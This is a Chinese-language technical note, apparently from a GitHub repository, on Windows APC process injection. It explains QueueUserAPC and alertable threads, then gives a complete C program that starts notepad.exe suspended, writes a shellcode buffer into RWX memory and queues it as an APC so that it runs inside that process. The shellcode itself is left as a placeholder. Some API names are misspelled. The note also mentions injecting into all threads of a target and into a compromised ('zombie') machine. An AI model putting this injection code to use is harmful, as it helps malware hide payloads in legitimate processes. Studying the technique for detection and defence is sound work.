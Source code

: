 

APC有两中存在形式：

1.  为系统和驱动生成的APC(内核APC)
2.  为应用程序生成的APC(用户APC)



```c
  DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,//指向一个用户提供的APC函数的指针(当指定线程执行可告警的等待时，将调用指向应用程序提供的APC函数的指针)
  [in] HANDLE    hThread,//线程的句柄。句柄必须有THREAD_SET_CONTEXT访问权限
  [in] ULONG_PTR dwData//指定一个被传到pfnAPC参数指向的APC函数的值
);
```







只有当一个线程

内部调用`SleepEx`、`SignalObjectAdndWait`、`WaitForSingleObjectEx`、`WaitForMultioleObjectsEx` 等

特定函数将自己处于**挂起状态**时，才会执行APC队列函数

我们利用QueueUserApc,往这个队列中插入一个回调函数



压入队列后，线程将按照顺序优先级执行(FIFO)

这种注入技术的缺点是只有当线程处在alertable状态时才去执行这些APC函数





原理如下:

```c
#include <Windows.h>
unsigned char shellcode[] = "<shellcode>";    //你的shellcode代码
int main()
{
    LPCSTR lpApplication = "C:\\Windows\\System32\\notepad.exe";   //path
    SIZE_T buff = sizeof(shellcode);      //size of shellcode
    STARTUPINFOA sInfo = { 0 };
    PROCESS_INFORMATION pInfo = { 0 };     //return a new process info
    CreateProcessA(lpApplication, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &sInfo, &pInfo);//以创建一进程为例子.然后挂起
    HANDLE hProc = pInfo.hProcess;
    HANDLE hThread = pInfo.hThread;


    LPVOID lpvShellAddress = VirtualAllocEx(hProc, NULL, buff, MEM_COMMIT, PAGE_EXECUTE_READWRITE);//直接开始APC注入
    PTHREAD_START_ROUTINE ptApcRoutine = (PTHREAD_START_ROUTINE)lpvShellAddress;
    WriteProcessMemory(hProc, lpvShellAddress, shellcode, buff, NULL);
    QueueUserAPC((PAPCFUNC)ptApcRoutine, hThread, NULL);//ptApcRoutine指向你的shellcode
    ResumeThread(hThread);

    return 0;
}
```



res还有一个代码

可以实现对指定进程的所有线程插入APC函数

原理是一样的

其中遇到的问题:如果自己写一个肉机代注入的话,就么效果

可能是它没内部调用`SleepEx`、`SignalObjectAdndWait`、`WaitForSingleObjectEx`、`WaitForMultioleObjectsEx` 等